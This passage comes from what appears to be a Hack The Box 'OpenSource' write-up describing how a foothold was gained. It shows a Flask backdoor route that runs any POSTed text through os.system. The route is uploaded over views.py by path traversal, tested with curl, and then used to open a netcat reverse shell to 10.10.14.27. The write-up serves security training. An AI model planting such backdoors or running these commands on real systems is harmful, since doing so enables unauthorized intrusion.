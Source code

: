 > Using this LFI I have tried generating the werkzueg pin code but I could not get that to work.

---
# Foothold
* Found some cronjob, but there are no executable scripts to modify.

* We have file read and file upload so what is stopping us from changing the source code on the server to add our own vulnerable code to get RCE

```python
import os
...

@app.route('/vymvn', methods=['POST'])
def shell():
    cmd = request.form['text']
    processed_cmd = os.system(cmd)
    return processed_cmd
```
added this function to `views.py` which will take any data we send with as `POST` request and process it as a command and send it back. Basically making ourselves a backdoor.

Now we need to upload `views.py` but uploading it normally will place it in `/uploads` and that would be useless.

We can intercept the upload request with `burpsuite` and use the same method we used to bypass LFI filter to navigate to `/app/app/views.py`
![Intercepting request](/images/HTB-opensource/burp.png)
![success](/images/HTB-opensource/upload_success.png)
## Testing RCE
Sending a `POST` request to `/vymvn` using curl:
```shell
curl -X POST http://opensource.htb/vymvn -d "text=id"
```
![RCE test](/images/HTB-opensource/RCE_test.png)
* **We have RCE!**

as root?

## Getting a reverse shell

Setting up listener:
```shell
nc -lvnp 6666
```
Sending reverse shell command:
```bash
curl -X POST --data "text=nc 10.10.14.27 6666 -e /bin/ash" opensource.htb/vymvn
```

{{< admonition info >}}
We know the shell is `/bin/ash` from the `/etc/passwd` file we got previously.
{{< /admonition >}}
